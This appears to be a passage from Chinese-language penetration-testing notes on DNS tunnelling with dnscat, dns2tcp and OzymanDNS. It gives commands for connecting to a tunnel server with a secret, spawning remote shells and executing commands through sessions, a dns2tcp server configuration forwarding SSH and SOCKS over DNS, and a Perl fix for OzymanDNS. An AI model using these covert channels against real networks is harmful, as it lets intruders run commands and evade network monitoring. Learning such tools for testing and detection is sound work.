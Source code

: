 ./dnscat --secret=kingx dnstun.cih.so 	使用加密方式连接，secret为认证密码。

./dnscat --dns domain=skullseclabs.org,server=8.8.8.8,port=53

		session/window 				查看会话
		session -i 1/window -i 1	选中某个会话
		exec gedit 		执行某个命令
		shell			创建shell
						创建一个shell后，shell会在一个新的会话中，使用session命令查看新的会话，并进行交互命令。

# 3. DNS2TCP

wget http://www.hsc.fr/ressources/outils/dns2tcp/download/dns2tcp-0.5.2.tar.gz 

tar xzvf dns2tcp-0.5.2.tar.gz 

./configure
make && make install

## 服务端
/etc/dns2tcpd.conf

	listen = 0.0.0.0（Linux服务器的IP）  
	port = 53  
	user = nobody  
	chroot = /tmp  
	domain = tcp.vvvtimes.com（上面配置NS记录的域名）  
	resources = ssh:127.0.0.1:22,socks:127.0.0.1:1082,http:127.0.0.1:3128 

dns2tcpd -f /etc/dns2tcpd.conf -F -d 2 


## 客户端
dns2tcpc -r ssh -l 8888 -d 2 -z dnstun.cih.so 8.8.4.4 

ssh -p 8888 root@127.0.0.1

# 4. OzymanDNS

https://raw.githubusercontent.com/mubix/stuff/master/stolen/ozymandns_src_0.1.tgz

https://dnstunnel.de/

**Tips:  这个版本的代码有很多坑，需要手动修改代码。**

1 - 服务端只会监听本地53端口。需要修改代码使其正常使用。

修改后的关键代码如下，添加了`LocalAddr    => [$opts{ip}],`这一部分代码：

```perl
my $ns = Net::DNS::Nameserver->new(
    LocalAddr    => [$opts{ip}],
    LocalPort    => 53,
    ReplyHandler => \&reply_handler,
    Verbose      => 2,
) || die "couldn't create nameserver object\n";
```
